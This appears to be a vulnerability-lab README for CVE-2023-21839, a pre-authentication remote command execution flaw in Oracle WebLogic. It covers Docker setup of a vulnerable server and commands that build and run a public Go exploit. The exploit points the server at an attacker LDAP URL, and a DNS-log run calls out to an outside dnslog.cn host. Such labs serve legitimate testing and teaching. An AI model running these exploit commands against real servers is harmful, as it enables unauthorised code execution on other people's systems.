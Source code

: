 # Weblogic Pre-Auth Remote Command Execution (CVE-2023-21839)

[中文版本(Chinese version)](README.zh-cn.md)

Oracle WebLogic Server is the industry leading application server for building enterprise applications using Java EE standards, and deploying them on a reliable, scalable runtime with low cost of ownership.

In [Oracle Critical Patch Update Advisory - January 2023](https://www.oracle.com/security-alerts/cpujan2023.html), Oracle fixed this security vulnerability.

CVE-2023-21839 allow remote users to make a JNDI lookup operation through IIOP without authorization, which may cause RCE vulnerability when JDK version is too low or there is a gadget (use javaSerializedData) locally.

References:

- https://www.oracle.com/security-alerts/cpujan2023.html

## Environment Setup

Start a Weblogic server 12.2.1.3 by executing the following command:

```
docker compose up -d
```

After the startup is complete, visit `http://your-ip:7001/console` to view the administrator console login page.

## Exploit

https://github.com/4ra1n/CVE-2023-21839

```shell
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

Windows

```shell
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

DNS Log

```shell
CVE-2023-21839.exe -ip 192.168.25.129 -port 7001 -ldap ldap://kmi896.dnslog.cn/test
[*] your-ip: 192.168.25.129
[*] your-port: 7001
[*] your-ldap: ldap://kmi896.dnslog.cn/test
[*] weblogic 12
[*] id=2 LocateRequest
[*] id=3 RebindRequest
[*] id=4 RebindRequest
[*] id=5 LocateRequest
[*] id=6 ResolveRequest
[*] id=7 ResolveRequest
```

![](1.png)
